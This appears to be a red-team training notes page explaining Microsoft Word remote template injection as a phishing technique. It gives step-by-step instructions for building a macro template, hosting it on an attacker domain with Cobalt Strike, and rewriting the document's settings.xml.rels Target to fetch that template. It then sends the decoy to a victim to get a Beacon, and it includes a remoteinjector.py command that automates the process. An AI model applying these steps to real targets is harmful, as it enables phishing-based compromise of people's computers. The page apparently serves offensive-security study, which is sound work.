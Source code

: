 ```yaml
---
description: 09/02/2025
---
```


# Remote Template Injection

## What is it?

**Microsoft Word includes a feature** that allows users to create documents linked to **templates**. _<mark style="color:red;">These templates can be stored locally or retrieved from a remote server whenever the document is accessed</mark>_.

Exploiting this functionality, attackers can host malicious Word Template files (`.dotm`) on their servers, embedding harmful macros within them. When a victim opens a Word document, it automatically fetches the malicious template from the attacker's server and executes the embedded code, potentially compromising the victim's system.&#x20;

The key benefit of this technique is that the decoy Word document reaching the victim's system appears harmless.&#x20;

This technique is known as _**Living off the Land**_ (**LotL**).&#x20;

## Creating a Malicious Word Template

1. Open Microsoft Word
2. Create a new blank document and insert a desired macro
3. Save to `C:\Payloads` along with the rest of your payloads as a _**Word 97-2003 Template**_ (`*.dot`) file
4. This will now serve as our "malicious remote template"
5. Use Cobalt Strike to host this file at your attacker-controlled domain, in this case, `http://nickelviper.com/template.dot`
6. Now create a new document from the blank template located in `C:\Users\Attacker\Documents\Custom Office Template`, adding any content you want, then save to `C:\Payloads` as a new `.docx` file.&#x20;
7. Browse to the directory in file explorer, right-click, and select `7-zip` > Open archive
8. Navigate to Word -> \_rels, right-click on `settings.xml.rels` and select **Edit**.&#x20;
9. This is just a small little `XML` file. Scroll until you see the `Target` entry:

```
Target="file:///C:\Users\Attacker\Documents\Custom%20Office%20Templates\Blank%20Template.dotx"
```

10. You're going to notice that it is currently pointing to the template on our local disk from which the document was created. Simply modify this so that it points to the template URL instead:

```
Target="http://nickelviper.com/template.dot"
```

11. Save those changes and email the document to Bob.
12. Once the file is opened, you'll see a warning about macros again, but allowing them to run will execute the macro in the hosted template, giving us a Beacon.

## Automation?

Check out this [Python tool](https://github.com/JohnWoodman/remoteinjector) that automates this process so that we do not have to modify the XML manually.

```
ubuntu@DESKTOP-3BSK7NO ~> python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx
URL Injected and saved to /mnt/c/Payloads/document_new.docx
```

## Observing Web Log Beacon Activity&#x20;

Inside of Cobalt Strike, you can go to _**View -> Web Log**_, and from there you can view any/all activity of your malicious templates.

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
